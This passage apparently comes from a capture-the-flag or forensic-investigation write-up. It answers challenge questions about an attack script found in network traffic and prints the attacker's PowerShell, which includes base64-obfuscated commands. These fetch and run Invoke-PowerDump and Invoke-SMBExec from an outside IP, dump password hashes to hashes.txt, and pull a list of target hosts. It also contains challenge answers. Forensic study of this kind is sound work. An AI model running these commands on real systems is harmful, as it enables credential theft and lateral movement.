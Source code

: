 ```powershell
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/Invoke-PowerDump.ps1')
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/Invoke-SMBExec.ps1')

$hostsContent = Invoke-WebRequest -Uri "http://87.96.21.84/extracted_hosts.txt" | Select-Object -ExpandProperty Content -ErrorAction Stop

$EncodedCommand = "KE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vODcuOTYuMjEuODQvSW52b2tlLVBvd2VyRHVtcC5wczEnKSB8IEludm9rZS1FeHByZXNzaW9uDQoNCg==" 
# (New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/Invoke-PowerDump.ps1') | Invoke-Expression

Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($EncodedCommand)))


$EncodedExec = "SW52b2tlLVBvd2VyRHVtcCB8IE91dC1GaWxlIC1GaWxlUGF0aCAiQzpcUHJvZ3JhbURhdGFcaGFzaGVzLnR4dCI="
# Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"

Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($EncodedExec)))
```

`Invoke-PowerDump.ps1`

## Q13

**Understanding which credentials have been compromised is essential for assessing the extent of the data breach. What's the name of the saved text file containing the dumped credentials?**

`Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"`

`hashes.txt`

## Q14

TCP stream 1188

```
GET /extracted_hosts.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.4291
Host: 87.96.21.84
Connection: Keep-Alive


HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.8
Date: Sun, 28 Apr 2024 00:32:12 GMT
Content-type: text/plain
Content-Length: 72
Last-Modified: Sat, 27 Apr 2024 23:41:36 GMT

Host: 87.96.21.71
Host: 87.96.21.75
Host: 87.96.21.80
Host: 87.96.21.81
```

